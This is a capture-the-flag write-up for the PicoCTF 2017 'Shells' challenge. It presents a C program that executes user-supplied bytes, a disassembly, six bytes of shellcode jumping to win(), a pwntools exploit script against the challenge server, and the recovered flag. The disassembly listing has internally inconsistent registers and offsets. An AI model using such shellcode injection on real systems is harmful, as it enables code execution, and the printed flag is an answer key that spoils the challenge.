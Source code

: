# Shells

PicoCTF - Disclaimer("This is from kamakwazee's write up https://github.com/djinn00/write-ups/blob/master/PicoCTF2017/exploitation/shells.md")

Desc : "This is a binary exploitation challenge worth 70 points"

Okay so we found a source code :
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>

#define AMOUNT_OF_STUFF 10

//TODO: Ask IT why this is here
void win(){
    system("/bin/cat ./flag.txt");    
}


void vuln(){
    char * stuff = (char *)mmap(NULL, AMOUNT_OF_STUFF, PROT_EXEC|PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, 0, 0);
    if(stuff == MAP_FAILED){
        printf("Failed to get space. Please talk to admin\n");
        exit(0);
    }
    printf("Give me %d bytes:\n", AMOUNT_OF_STUFF);
    fflush(stdout);
    int len = read(STDIN_FILENO, stuff, AMOUNT_OF_STUFF);
    if(len == 0){
        printf("You didn't give me anything :(");
        exit(0);
    }
    void (*func)() = (void (*)())stuff;
    func();      
}

int main(int argc, char*argv[]){
    printf("My mother told me to never accept things from strangers\n");
    printf("How bad could running a couple bytes be though?\n");
    fflush(stdout);
    vuln();
    return 0;
}
```
From the program above, we can see that there is a function called "win" to print the flag. Lets try runing the program :
```
blaccmail@localhost:~/Downloads$ ./shells.exe
My mother told me to never accept things from strangers
How bad could running a couple bytes be though?
Give me 10 bytes:
1   
Segmentation fault
-------------------------------------------------------------
blaccmail@localhost:~/Downloads$ ./shells.exe
My mother told me to never accept things from strangers
How bad could running a couple bytes be though?
Give me 10 bytes:
AAAAAA
Segmentation fault
```

The program ask you to put a 10 byte input, but when you do that it segfault. You can see at the "vuln()" the program using mmap function and the PROT parameters are set into ```PROT_EXEC|PROT_READ|PROT_WRITE``` wich means the program can execute any instruction from the input variable. Now lets disass the program :
```
gdb-peda$ disass win
Dump of assembler code for function win:
   0x08048540 <+0>:	push   rbp
   0x08048541 <+1>:	mov    rbp,rsp
   0x08048543 <+4>:	lea    rdi,[rip+0x1a3]       
   0x08048546 <+11>:	call   0x08048700 <system@plt>
   0x08048549 <+16>:	nop
   0x08048556 <+17>:	pop    rbp
   0x08048557 <+18>:	ret    
End of assembler dump.
```
What we want to do is to create a command so the win() address will pushed on top of the stack and then the program can return to it.
```
-------------------------------
push	0x08048540
ret
-------------------------------
\x68\x40\x85\x04\x08\xc3  <- Instruction in hex.
-------------------------------
```
Now lets craft teh pawload on python.
```
from pwn import *

p = remote('shell2017.picoctf.com', 17533)

sc = '\x68\x40\x85\x04\x08\xc3'
p.recvuntil(':\n')
p.send(sc)
flag = p.recvline()
print flag

p.close()
```
Let see here :
```
blaccmail@localhost:~/Downloads$ python test.py
[+] Opening connection to shell2017.picoctf.com on port 17533: Done
4350d27b024f8597f10b98f164f0fc43

[*] Closed connection to shell2017.picoctf.com port 17533
blaccmail@localhost:~/Downloads$ 
```

Great! and the flag is found!

# Flag [4350d27b024f8597f10b98f164f0fc43]





